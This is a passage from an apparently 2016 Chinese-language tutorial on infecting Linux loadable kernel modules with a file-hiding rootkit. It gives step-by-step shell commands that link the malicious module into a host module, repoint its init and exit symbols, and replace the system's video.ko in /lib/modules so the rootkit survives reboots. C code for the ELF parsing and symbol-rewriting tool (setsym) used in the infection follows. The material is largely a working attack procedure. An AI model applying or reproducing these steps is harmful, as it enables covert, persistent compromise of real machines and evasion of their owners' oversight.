**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 构建已经修改好适合寄生的恶意模块。
   $ (cd fshid && make --quiet)

   // 构建良民模块（即宿主模块）。
   $ make --quiet

   // 将寄生模块与宿主模块链接到一起。
   // 请注意顺序。
   $ ld -r codeinj.ko fshid/fshidko.ko -o infected.ko

   // 将寄生后宿主的 init_module 符号值改成 fshid_init 符号值
   $ setsym infected.ko init_module $(setsym infected.ko fshid_init)

   // 将寄生后宿主的 cleanup_module 符号值改成 fshid_exit 符号值
   $ setsym infected.ko cleanup_module $(setsym infected.ko fshid_exit)

   // 加载被寄生了的宿主。
   $ insmod infected.ko

   // 测试看看那个文件能不能列举出来：结果应该是不能。
   $ ls -al fshid/test

   $ rmmod codeinj // 注意模块名要用宿主的，即 codeinj

   // 再测试看看那个文件能不能列举出来：结果应该是能。
   $ ls -al fshid/test

参考效果
********

结果如图。



4. 感染系统中的内核模块
+++++++++++++++++++++++

现在，我们开始做点正事，感染系统关键内核模块搭顺风车实现隐蔽持久化。

确定目标并采集必要信息
**********************

在系统启动的时候，有一些内核模块会自动加载，
Rootkit 的内核模块可以寄生到这些模块上，实现实现隐蔽持久。

通过 ``lsmod`` 随意找个没被使用的模块，笔者就拿 ``video`` 动手了，
并在滚到最新的 Kali （ ``4.6.0-kali1-amd64`` ）上实践，
读者需要根据自己动手的环境进行一些必要的调整。

先找到它的文件。
尝试在 ``/lib/modules/$(uname -r)`` 目录下面查找一下，
``find /lib/modules/$(uname -r) -name video`` 。结果如下。

::

   $ find /lib/modules/$(uname -r) -name video.ko
   /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko

接下来尝试判断目标模块的初始函数与退出函数的个性名字。
笔者顺手找到了 ``video`` 模块的源代码，
位于内核源码（笔者手里的版本是 4.6.2）树的
``drivers/acpi/acpi_video.c`` 。
摘取关键片段如下，我们可以看到 ``video`` 模块的初始函数与退出函数是
``acpi_video_init`` 与 ``acpi_video_exit`` 。

::

   module_init(acpi_video_init);
   module_exit(acpi_video_exit);

将 fshid 感染到系统模块中
*************************

一切准备就绪，开始行动。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 复制目标模块到实验的当前目录。
   $ cp /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko .

   // 检查一下我们对初始函数与退出函数的判断是否正确。
   $ readelf -s video.ko | grep -e grep -e acpi_video_init -e acpi_video_exit

   // 把它的初始函数与退出函数的绑定改成 global 。
   // 后面会解释一下这一步的必要性。
   $ objcopy video.ko gvideo.ko --globalize-symbol acpi_video_init --globalize-symbol acpi_video_exit

   // 检查一下 objcopy 是否成功。
   $ readelf -s gvideo.ko | grep -e grep -e acpi_video_init -e acpi_video_exit

   // 构建已经修改好适合寄生的恶意模块。
   // 后面还会解释一下要怎么修改。
   $ (cd fshid && make --quiet)

   // 将寄生模块与宿主模块链接到一起。
   // 请注意顺序。
   $ ld -r gvideo.ko fshid/fshidko.ko -o infected.ko

   // 将寄生后宿主的 init_module 符号值改成 fshid_init 符号值
   $ setsym infected.ko init_module $(setsym infected.ko fshid_init)

   // 将寄生后宿主的 cleanup_module 符号值改成 fshid_exit 符号值
   $ setsym infected.ko cleanup_module $(setsym infected.ko fshid_exit)

   // 卸载系统本来就加载了的 video 模块。
   $ rmmod video

   // 加载寄生了恶意模块的 video 的模块。
   // 观察 dmesg 的输出。
   $ insmod infected.ko

   // 测试隐藏的那个文件能不能列举出来：结果应该是不能。
   $ ls -al fshid/test

   $ rmmod video // 注意模块名要用宿主的，即 video

   // 再测试隐藏的那个文件能不能列举出来：结果应该是能。
   $ ls -al fshid/test

参考效果与重启测试
******************

测试效果截图如下。



如果测试正常，那么我们可以用被感染的模块替换掉原来的那个健康的模块了。

::

   // 备份健康的 video 模块。
   $ mv /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko.bak
   // 把被感染的 video 模块复制到原来健康模块的位置。
   $ cp infected.ko /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko

   // 重启系统。
   $ reboot

系统重启之后检查 dmesg 日志并测试是否可以查看到我们的隐藏文件，
以此来判断我们的恶意模块是否正常工作。

看下图，我们可以看到，在系统启动的初期，
我们感染到 ``video`` 模块里的代码打印出来的启动信息。
显然，我们的感染是成功。



系统重启之后，进行文件隐藏是否起作用的测试。参考结果如下图。



如何修改 fshid 使其便于寄生到真实的系统模块
*******************************************

在第 3 小节感染示例模块的时候，我们就对 fshid 做了一些必要的修改。
请注意，在用来感染实际的系统模块时，我们还要多做一点改动。

改动的第一点是把 ``init_module`` 与 ``cleanup_module`` 改成
``fshid_init`` 与 ``fshid_exit`` 来避免名字冲突。
这一点改动与第 3 小节是一样的。

第二点就是，在 ``fshid_init`` 里调用 ``acpi_video_init`` ，
在 ``fshid_exit`` 里调用 ``acpi_video_exit``
来使宿主被感染之后依旧能正常工作。第二点也与第 3 小节类似。

最后是与第 3 小节不同的一个改动，
在定义 ``fshid_init`` 的时候前面加上 ``__init`` ，
定义 ``fshid_exit`` 的时候前面加上 ``__exit`` 。

这是因为系统模块的初始函数与退出函数在定义的时候
通常都加上了这两个修饰前缀。
它们的作用是把函数的代码放到特殊的代码区间里
（也就是说，不放到 ``.text`` 区间里）。
这一点我们要与被感染的模块保持一致。

把系统模块初始函数与退出函数的绑定改成 global 的必要性
******************************************************

系统模块的初始函数与退出函数在定义的时候通常也都会加上 ``static`` ，
这就使得这两个函数只在它那个源码文件的目标文件里可见，
我们也就不能在我们的假初始函数与假退出函数里调用了。

所以，我们要先用 ``objcopy --globalize-symbol``
把这两个函数从 ``local`` 变成 ``global`` 。

5. 小结
+++++++

到此，我们详细讨论了通过链接、修改符号表来感染其他模块并劫持 /
挂钩其他模块的初始函数与退出函数，并将目标模块变成我们的宿主，
依托目标模块活动。

需要说明的是，对符号的具体解析、重定位细节，本文没有深入，
且待后续的分解。

另外，本文使用的 ``ld`` 与 ``objcopy`` 在普通用户的机器上很可能没有。
也就是说，我们其实需要自己实现链接与把符号从 ``local``
改成 ``global`` 的功能。考虑到篇幅有限，本文对这两个的实现不做讲解。

第二部分： ELF 文件解析初步
---------------------------

示例一：列举所有区间的名字、文件偏移等信息：``lssec``
+++++++++++++++++++++++++++++++++++++++++++++++++++++

分析 ELF 头部
*************

ELF 文件的起始部分为 ELF 头部，
ELF 头部有两种， 即 ``Elf32_Ehdr`` （32 比特 ELF 文件头部）
与 ``Elf64_Ehdr`` （64 比特 ELF 文件头部）。

我们以 ``Elf64_Ehdr`` 为例看看其成员的含义。

.. code-block:: c

   typedef struct
   {
     unsigned char  e_ident[EI_NIDENT]; // ELF 特征码与其他信息。
     Elf64_Half     e_type; // 类型。
     Elf64_Half     e_machine; // 架构。
     Elf64_Word     e_version; // 版本。
     Elf64_Addr     e_entry; // 入口点虚拟地址。
     Elf64_Off  e_phoff; // 程序头表的文件偏移。
     Elf64_Off  e_shoff; // 区间头表的文件偏移。
     Elf64_Word     e_flags;
     Elf64_Half     e_ehsize; // ELF 头部的大小（单位：字节）。
     Elf64_Half     e_phentsize; // 程序头表项的大小（单位：字节）。
     Elf64_Half     e_phnum; // 程序头表项的数目。
     Elf64_Half     e_shentsize; // 区间头表项的大小（单位：字节）。
     Elf64_Half     e_shnum; // 区间头表项的数目。
     Elf64_Half     e_shstrndx; // 区间头字符串表在区间头表的索引。
   } Elf64_Ehdr;

头部的前 ``EI_NIDENT`` 字节数据（即结构体中的 e_ident 成员）
为 ELF Identification，
其中包括特征码，比特类型（即 32 比特或者 64 比特）
与其他信息（比如端序 ）。

具体解析的时候，我们先从文件的起始处读取
``EI_NIDENT`` 字节的内容到内存中，
从中判断出文件的比特类型，在知道了文件的比特类型之后，
我们就可以确定该用 ``Elf32_Ehdr`` 还是用 ``Elf64_Ehdr`` 。

本文涉及的所有操作均以 ``Elf64_Ehdr`` + 小端序为例。

结合示例代码来理解。

.. code-block:: c

   // 省略打开文件部分。

   unsigned char e_ident[EI_NIDENT];
   // 读取文件起始 ``EI_NIDENT`` 字节的内容。
   if (fread(e_ident, 1, EI_NIDENT, fp) != EI_NIDENT) {
       fprintf(stderr, "%s\n", "Incomplete ELF Identification!");
       return EXIT_FAILURE;
   }

   // 判断 ``ELF`` 特征码是否正确。
   // ``ELFMAG`` 与 ``SELFMAG`` 定义于系统头文件 ``elf.h`` 中，
   // 分别为特征码与特征码的大小。
   if (memcmp(e_ident, ELFMAG, SELFMAG) != 0) {
       fprintf(stderr, "%s\n", "Bad ELF Magic Number!");
       return EXIT_FAILURE;
   }

   // 判断是否是 64 比特小端序。
   // 这里使用的宏比如 ``EI_CLASS`` 与 ``ELFCLASS64`` 均定义于 ``elf.h`` 。
   if (e_ident[EI_CLASS] != ELFCLASS64 || e_ident[EI_DATA] != ELFDATA2LSB) {
       fprintf(stderr, "%s\n", "We Only Support ELF64 LE!");
       return EXIT_FAILURE;
   }

   Elf64_Ehdr header;
   // 退回到文件起始。
   fseek(fp, 0, SEEK_SET);
   // 读取一个 ``Elf64_Ehdr`` 大小的内容，
   // 也就是读取 ``ELF`` 头部。
   if (fread(&header, 1, sizeof header, fp) != sizeof header) {
       fprintf(stderr, "%s\n", "Incomplete ELF Header!");
       return EXIT_FAILURE;
   }

分析区间头部
************

上面我们讨论了 ELF 头部的结构与读取方式，
接下来我们看看怎样处理区间头部，区间头部也分两种，
32 比特的叫 ``Elf32_Shdr`` ，自然 64 比特的也就叫 ``Elf64_Shdr`` 。

以 ``Elf64_Shdr`` 为例，成员含义如下。

.. code-block:: c

   typedef struct
   {
     Elf64_Word     sh_name; // 区间名（字符串表索引）。
     Elf64_Word     sh_type; // 区间类型。
     Elf64_Xword    sh_flags; // 区间标志。
     Elf64_Addr     sh_addr; // 区间虚拟地址。
     Elf64_Off  sh_offset; // 区间文件偏移。
     Elf64_Xword    sh_size; // 区间大小（单位：字节）。
     Elf64_Word     sh_link;
     Elf64_Word     sh_info;
     Elf64_Xword    sh_addralign;
     Elf64_Xword    sh_entsize; // 这个会在下面 lssym 的时候解释。
   } Elf64_Shdr;

值得注意的是， ``sh_name`` 成员并不是一个字符串，
而是一个整数，为区间头表字符串表的索引。
那我们怎么拿到这个区间的名字呢？

回想我们前面讲的 ELF 头部结构，
``Elf64_Ehdr`` 里的 ``e_shoff`` 成员是区间头表的文件偏移，
``e_shentsize`` 是区间头表项的大小（单位：字节），
``e_shnum`` 是区间头表项的数目；也就是说，
从文件偏移 ``e_shoff`` 开始 ``e_shentsize * e_shnum`` 大小的内容
就是区间头表。
这样一来，我们可以把整个区间头表读取到内存里。
而 ``e_shstrndx`` 是字符串表在区间头表的索引，
通过访问这个索引得到字符串表的头部，
并进而根据头部中的信息将字符串表的内容读取出来，
再 ``sh_name`` 作偏移访问字符串表就可以拿到区间名了。

结合代码示例理解。

.. code-block:: c

   size_t size = header.e_shnum * header.e_shentsize;
   // 分配区间头表大小的内存。
   Elf64_Shdr *section_header_table = malloc(size);
   if (section_header_table == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }

   // 定位到文件偏移 ``e_shoff`` 处。
   fseek (fp, header.e_shoff, SEEK_SET);
   // 读取区间头表。
   if (fread(section_header_table, 1, size, fp) != size) {
       fprintf(stderr, "%s\n", "Incomplete Section Header Table!");
       return EXIT_FAILURE;
   }

   // 得到字符串表的区间头。
   Elf64_Shdr shstrtab = section_header_table[header.e_shstrndx];
   // 区间大小。
   size = shstrtab.sh_size;
   // 分配内存。
   char *section_header_string_table = malloc(size);
   if (section_header_string_table == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }

   // 定位到字符串表所在文件偏移。
   fseek (fp, shstrtab.sh_offset, SEEK_SET);
   // 读取字符串表。
   if (fread(section_header_string_table, 1, size, fp) != size) {
       fprintf(stderr, "%s\n", "Incomplete Section Header String Table!");
       return EXIT_FAILURE;
   }

遍历所有区间并打印其信息
************************

然后我们就可以遍历区间头表并将其名字、文件偏移等信息打印出来。
代码如下。

.. code-block:: c

   printf("%s\n", "number offset     size   entsize   name");
   for (unsigned num = 0; num < header.e_shnum; num += 1) {
       Elf64_Shdr section_header = section_header_table[num];
       char *name = string_table + section_header.sh_name;
       printf("%4u %8llx %8llx %8llx %s\n",
              num, section_header.sh_offset,
              section_header.sh_size, section_header.sh_entsize,
              name);
   }

参考效果
********

编译 ``lssec.c`` 得到 ``lssec`` 。

左边是 ``./lssec /bin/ls`` ，
右边是对比使用的 ``readelf -S /bin/ls`` 。



示例二：列举所有符号的名字、值等信息：``lssym``
+++++++++++++++++++++++++++++++++++++++++++++++

上面的示例一完成了对区间头表的遍历。现在我们再看看怎么读取符号表。

基于示例一遍历区间头表的代码，
我们可以实现一个 ``get_section_by_name`` ，
即通过区间名字拿到对应的区间头。

然后我们通过 ``get_section_by_name`` 拿到 ``.symtab`` （即符号表）与
``.strtab`` （符号字符串表）的区间头，
进而根据这两个头把这两个区间读到内存中来。
看如下代码。

.. code-block:: c

   // 获取 .symtab 的头。
   Elf64_Shdr *symtab = get_section_by_name(".symtab",
                                            header,
                                            sec_header_tab,
                                            shstrtab);

   // 这儿省略获取 .strtab 的头，与获取 .symtab 的头类似。

   // 这儿省略对是否获取成功的检查。

   // 分配 .symtab 大小的内存。
   Elf64_Sym *syms = malloc(symtab->sh_size);
   if (syms == NULL) {
       perror("malloc");
       return EXIT_FAILURE;
   }
   // 定位到 .symtab 的文件偏移。
   fseek(fp, symtab->sh_offset, SEEK_SET);
   // 读取 .symtab。
   if (fread(syms, 1, symtab->sh_size, fp) != symtab->sh_size) {
       fprintf(stderr, "%s\n", "Incomplete Symbol Table!");
       return EXIT_FAILURE;
   }

   // 这儿省略 .strtab 的读取，与 .symtab 的读取类似。

此时， ``.symtab`` 与 ``.strtab`` 都已经读到内存里了。
下面我们看看， ``.symtab`` 的结构。

区间头有一个 ``sh_entsize`` 成员，这个成员的含义是，
如果这个区间保存的是一张表，
那么 ``sh_entsize`` 就是这张表中每个成员的大小。
回想一下，区间头里的 ``sh_size`` 是区间的大小，
所以对 ``.symtab`` 而言，它有 ``sh_size / sh_entsize`` 项成员。

每项成员由结构体 ``Elf64_Sym`` 描述，定义如下。

::

   typedef struct
   {
     Elf64_Word     st_name; // 符号名字（字符串表索引）
     unsigned char  st_info; // 类型与绑定。
     unsigned char st_other;
     Elf64_Section  st_shndx;
     Elf64_Addr     st_value; // 符号的值。
     Elf64_Xword    st_size;
   } Elf64_Sym;

``Elf64_Sym`` 中的 ``st_name`` 是一个整数，
为符号的名字在 ``.strtab`` 中的索引，
这一点与之前区间头（ ``Elf64_Shdr`` ）里的 ``sh_name`` 类似。

知道了这些，我们就可以遍历整个符号表并将符号的名字，
符号的值等信息打印出来，如下代码所示。

.. code-block:: c

   printf("%s\n",
          "num    index    size    value  info other  name");
   int total = symtab->sh_size / symtab->sh_entsize;
   for (int count = 0; count < total; count += 1) {
       printf("%4llu %4llx %8llu %8llx %4x %4x %s\n",
              count,
              syms[count].st_shndx,
              syms[count].st_size,
              syms[count].st_value,
              syms[count].st_info,
              syms[count].st_other,
              strs + syms[count].st_name);
   }

参考效果
********

编译 ``lssym.c`` 得到 ``lssym`` ，如下图所示，
左边是 ``./lssym ../noinj/noinj.ko`` ，
右边是用来对照的 ``readelf -s ../noinj/noinj.ko`` 。



示例三：获取或修改给定符号的值：``setsym``
++++++++++++++++++++++++++++++++++++++++++

既然我们已经能够遍历整个符号表了，那么要获取给定符号的值，毫无压力。

那么修改给定符号的值呢，也很简单，请看如下代码，
基于示例二的遍历逻辑修改而来。

.. code-block:: c

    for (int count = 0; count < total; count += 1) {
        // 判断当前遍历到的符号是不是我们给定的符号。
        // 请注意，argv[2] 位置参数用来给定符号的名字。
        if (strcmp(strs + syms[count].st_name, argv[2]) == 0) {
           // 如果是，就会执行进来。
           // 判断位置参数的个数。
            if (argc == 4) {
                // 如果给定了 3 个位置参数，执行到这里。
                // 这时是 setsym 的第二种用法。
                // 即 setsym <module_path> <symbol_name> <symbol_value> 。
                // 也就是设置给定符号的值。

                // 取当前符号。
                Elf64_Sym sym = syms[count];
                char *endp;
                errno = 0;
                // 将 argv[3] 转换成整数。
                // 注意 argv[3] 是需要设置的给定符号的值。
                unsigned long long val = strtoull(argv[3], &endp, 0);
                // 处理转换时可能出现的错误。
                if ((errno == ERANGE && val == ULLONG_MAX) ||
                    (errno != 0 && val == 0)) {
                    perror("strtoull");
                    return EXIT_FAILURE;
                }
                // 处理转换时可能出现的错误。
                if (endp == argv[3]) {
                    fprintf(stderr, "%s\n", "No Valid Number!");
                    return EXIT_FAILURE;
                }
                // 把符号的值改成给定的值。
                sym.st_value = val;

                // 计算当前符号距离 .symtab 起始的偏移。
                long delta = count * symtab->sh_entsize;
                // 定位到当前符号的文件偏移。
                fseek(fp, symtab->sh_offset + delta, SEEK_SET);
                // 写入修改后的符号。
                if (fwrite(&sym, 1, sizeof sym, fp) != sizeof sym) {
                    fprintf(stderr, "%s\n", "Incomplete Sym Write!");
                    return EXIT_FAILURE;
                } else {
                    fprintf(stderr, "%s\n", "Writing complete.");
                }
            } else {
                // 如果给定了 2 个位置参数，执行到这里。
                // 请注意，我们在程序的开始部分就把 argc 限制在了
                // 3 或者 4 。

                // 这时是 setsym 的第一种用法。
                // 即 setsym <module_path> <symbol_name> 。
                // 获取给定符号的值。
                printf("0x%llx\n", syms[count].st_value);
            }
        }
    }

参考效果
********

考虑到我们在第一部分已经基于 ``setsym`` 完成了我们的 Happy Hacking 。
这里就不必举参考用例了。

第三部分： 参考资料与延伸阅读
-----------------------------

1. 参考资料
+++++++++++

- `Infecting loadable kernel modules: kernel versions 2.6.x/3.0.x <http://phrack.org/issues/68/11.html#article>`_
- `Tool Interface Standard (TIS) Executable and Linking Format (ELF) Specification Version 1.2 <http://refspecs.linuxbase.org/elf/elf.pdf>`_

2. 延伸阅读
+++++++++++

- `Infecting Loadable Kernel Modules <http://phrack.org/issues/61/10.html#article>`_
- `Static Kernel Patching <http://phrack.org/issues/60/8.html#article>`_

如有错误疏忽，欢迎纠正补充；
如有疑惑不解，欢迎提问讨论。

rectigu@gmail.com ， 二〇一六年七月。

.. _笔者的上一篇文章: http://www.freebuf.com/articles/system/107829.html
